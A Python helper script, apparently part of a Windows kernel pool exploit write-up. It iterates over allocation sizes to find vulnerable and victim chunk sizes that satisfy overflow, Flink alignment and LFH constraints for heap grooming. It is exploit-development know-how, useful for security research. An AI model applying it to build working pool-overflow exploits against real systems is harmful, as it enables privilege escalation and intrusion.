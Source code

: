 ```python

#vulnerable_chunk_req_size should fall within the dynamic lookaside range
for vulnerable_chunk_req_size in range(0x1f0, 0xf80):
    vulnerable_chunk_actual_size = get_chunk_size(vulnerable_chunk_req_size)
    overflow_size = 0x10000 + vulnerable_chunk_req_size
    
    if overflow_size%6 != 0 or overflow_size%0x10!=2:
        continue
    
    prev_target_actual_size = 0
    for victim_chunk_req_size in range(0x1f0, 0xf80, 0x10):
        victim_chunk_actual_size = get_chunk_size(victim_chunk_req_size)
        if victim_chunk_actual_size == prev_target_actual_size:
            continue
        if victim_chunk_actual_size*2>=0x1000-0x20:
            continue
            
        prev_target_actual_size = victim_chunk_actual_size
        
        #check for Flink alignment. note: the vulnerable chunk data start at offset 0x10 (after pool header)
        #we also assume chunks have the following structure to make calculations easier: |POOL_HEADER|USER_DATA|VS_HEADER|
        if (vulnerable_chunk_req_size+0x10-2)%victim_chunk_actual_size != 0x10:
            continue
        
        #we don't want the victim chunk to span over two pages
        if vulnerable_chunk_req_size+victim_chunk_actual_size>=0x1000-0x20:
            continue

        #we want only one vulnerable chunk per page
        if 0x1000-0x20-(vulnerable_chunk_actual_size-0x10)>=vulnerable_chunk_actual_size:
           continue
        
        #we want the free chunks created by the vulnerable and victim chunks to fall within the LFH to avoid reallocation.
        if get_remaining_len(vulnerable_chunk_actual_size, victim_chunk_actual_size)>0x210:
            continue  
        if get_remaining_len(victim_chunk_actual_size, victim_chunk_actual_size)>0x210:
            continue
            
        print(f"vuln chunk size: {overflow_size//6:#x}, vulnerable_chunk_req_size={vulnerable_chunk_req_size:#x}, victim_chunk_req_size: {victim_chunk_req_size:#x}, fragment sizes: ", hex(get_remaining_len(victim_chunk_actual_size, victim_chunk_actual_size)),hex(get_remaining_len(vulnerable_chunk_actual_size, victim_chunk_actual_size)))
```
